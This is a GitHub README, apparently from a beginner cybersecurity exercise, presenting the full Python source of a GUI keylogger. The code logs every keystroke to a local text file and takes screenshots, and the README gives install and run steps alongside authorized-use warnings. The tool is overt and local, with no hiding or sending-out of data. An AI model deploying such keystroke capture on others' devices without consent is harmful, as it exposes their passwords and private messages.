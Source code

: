 ### 💀🕶️ Black Phantom Logger

## ⚠️ Warning & Ethical Considerations
**🚨 This tool is meant for eductional purpose and learning cybersecurity only!**
- Do **not** use this tool without proper authorization.
- Unauthorized use of keyloggers is **illegal and punishable** by law.
- The author **takes no responsibility** for any unethical or misuse use of this code.

🔴 **Use responsibly and ethically.**

## 🛠️ Tools Used
For writing and running the Python script, I used:

Thonny IDE – A beginner-friendly Python environment, great for easy script execution and debugging.

## 📦 Required Python Libraries
Before running the keylogger, install the necessary libraries:

`pip install pynput tkinter opencv-python pyautogui pillow`

# Libraries Explained:

`pynput` – Captures keystrokes in the background.

`tkinter` – Creates the GUI for our Black Phantom Logger.

`opencv-python` – Helps handle images (optional for additional features).

`pyautogui` – Captures screenshots.

`PIL (pillow)` – Supports image manipulation inside the GUI.

## 🚀 Project Overview
This is a simple keylogger with a dark hacker-themed GUI named Black Phantom Logger. It records keystrokes and saves them to a file. It also includes:

A graphical user interface (GUI) using Tkinter.

A dark "hacker-style" theme with a black and green aesthetic.

A button for starting and stopping the keylogger.

A logo of a hacker to enhance the simulation experience.

A feature to capture the screen as an extra functionality.

📜 Code Walkthrough
Let's break down the script step by step!

# 1️⃣ Importing Required Modules

```python
import tkinter as tk
from tkinter import messagebox
from pynput.keyboard import Listener
import os
import pyautogui
from PIL import Image, ImageTk
```

`tkinter` – Creates the graphical interface.

`pynput.keyboard.Listener` – Monitors and records keystrokes.

`os` – Handles file operations.

`pyautogui` – Captures screenshots.

`PIL.Image, ImageTk` – Displays images in the GUI.

# 2️⃣ Creating the GUI (Graphical User Interface)

```python
root = tk.Tk()
root.title("Black Phantom Logger")
root.geometry("400x400")
root.configure(bg="black")
`tk.Tk()` – Initializes the main window.

`title("Black Phantom Logger")` – Sets the program title.

`geometry("400x400")`– Defines the window size.

`configure(bg="black")` – Applies the dark hacker-style theme.
```

3️⃣ Adding a Hacker-Style Logo

```python
logo = Image.open("hacker_logo.png")  # Make sure you have an image named hacker_logo.png
logo = logo.resize((100, 100))
logo = ImageTk.PhotoImage(logo)
logo_label = tk.Label(root, image=logo, bg="black")
logo_label.pack()
Loads a hacker-themed image to enhance the look.

Resizes the image and places it in the GUI.
```

4️⃣ Keystroke Logging Function
 ```python
def log_keystrokes(key):
    key = str(key).replace("'", "")
    with open("keystrokes.txt", "a") as file:
        file.write(key + "\n")
Converts each pressed key into a string.

Saves the keystrokes into a text file (keystrokes.txt).
```

5️⃣ Screenshot Capture Function

```python
def capture_screen():
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")
    messagebox.showinfo("Screenshot", "Screenshot saved as screenshot.png")
Uses pyautogui.screenshot() to take a snapshot.

Saves the image as "screenshot.png".

Displays a confirmation message.
```

6️⃣ Start & Stop Buttons

```python
def start_logger():
    global listener
    listener = Listener(on_press=log_keystrokes)
    listener.start()
    messagebox.showinfo("Logger", "Keylogger Started!")

def stop_logger():
    if listener:
        listener.stop()
        messagebox.showinfo("Logger", "Keylogger Stopped!")
start_logger() – Begins keylogging in the background.

stop_logger() – Stops the keylogger when needed.
```

7️⃣ Adding Buttons to GUI

```python
start_button = tk.Button(root, text="Start Logging", command=start_logger, bg="green", fg="white")
stop_button = tk.Button(root, text="Stop Logging", command=stop_logger, bg="red", fg="white")
screenshot_button = tk.Button(root, text="Capture Screen", command=capture_screen, bg="blue", fg="white")

start_button.pack(pady=10)
stop_button.pack(pady=10)
screenshot_button.pack(pady=10)
Buttons added:

Start Logging (Green Button)

Stop Logging (Red Button)

Capture Screen (Blue Button)
```
8️⃣ Running the GUI

 ```python
root.mainloop()
root.mainloop() keeps the window running.
```
### 🎭 Features & Hacker Simulation Experience
Dark Theme: A black & green color scheme for a hacker-like feel.

Hacker Logo: Enhances the interface's aesthetics.

Keylogging: Logs all keystrokes into a file.

Screen Capture: Takes a screenshot for additional monitoring.

### ⚠️ Warning & Ethical Considerations

🚨 This tool is meant for learning cybersecurity only!

Do not use this tool without proper authorization.

Unauthorized use of keyloggers is illegal and punishable by law.

The author takes no responsibility for any unethical use.

🔴 Use responsibly and ethically.

### 👨‍💻 How to Run the Keylogger
Install Thonny IDE (if not installed).

Download or clone this repository:

git clone (https://github.com/AhmedSalahHassanQatar/PRODIGY_CS_04)
cd black-phantom-logger

Install dependencies:
pip install pynput tkinter opencv-python pyautogui pillow
Run the script in Thonny or terminal:
python keylogger.py

## 📜 Final Words
This project is a basic yet powerful way to understand how keyloggers work in a cybersecurity research context. If you're a beginner, this is a great starting point for learning about ethical hacking, Python scripting, and GUI development.

🚀 Happy Learning, and Stay Ethical!
